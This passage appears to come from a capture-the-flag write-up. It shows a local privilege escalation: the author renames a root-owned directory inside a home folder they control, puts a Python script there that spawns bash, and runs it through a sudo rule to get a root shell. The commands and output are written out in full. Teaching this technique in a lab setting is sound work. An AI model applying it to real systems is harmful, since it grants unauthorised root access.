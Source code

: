 

    robert@obscure:/home$ ls -ld robert/
    drwxr-xr-x 8 robert robert 4096 May  9 18:47 robert/

    robert@obscure:~$ ls -ld BetterSSH
    drwxrwxr-x 2 robert robert 4096 May  9 18:47 BetterSSH



To delete a directory, I have to either empty it and run `rmdir`, or run
`rm -rf` on it. Both of these require my getting access to the files in
the directory, which I do no have (they are owned by root). However, to
rename directory A within directory B, all that matters is the
permissions of the directory B, specifically that I have write (`w`)
permissions (and enter permissions (`x`)). But in this case, as robert,
I have `rwx`.

In practice, if I try to remove the directory, it fails:



    robert@obscure:~$ rm -rf BetterSSH/
    rm: cannot remove 'BetterSSH/BetterSSH.py': Permission denied



If I just move it, it works fine:



    robert@obscure:~$ mv BetterSSH{,-old}
    robert@obscure:~$ ls
    BetterSSH-old  check.txt  out.txt  passwordreminder.txt  SuperSecureCrypt.py  user.txt



I used one of my favorite command line shortcuts, where
`BetterSSH{,-old}` is the same as `BetterSSH BetterSSH-old`.

Now I can create a new `BetterSSH` directory, and put my own
`BetterSSH.py` script into it:



    robert@obscure:~$ mkdir BetterSSH
    robert@obscure:~$ echo -e '#!/usr/bin/env python3\n\nimport pty\n\npty.spawn("bash")'
    #!/usr/bin/env python3

    import pty

    pty.spawn("bash")
    robert@obscure:~$ echo -e '#!/usr/bin/env python3\n\nimport pty\n\npty.spawn("bash")' > BetterSSH/BetterSSH.py 



Now I can run with `sudo` and get a root shell:



    robert@obscure:~$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
    root@obscure:~# 







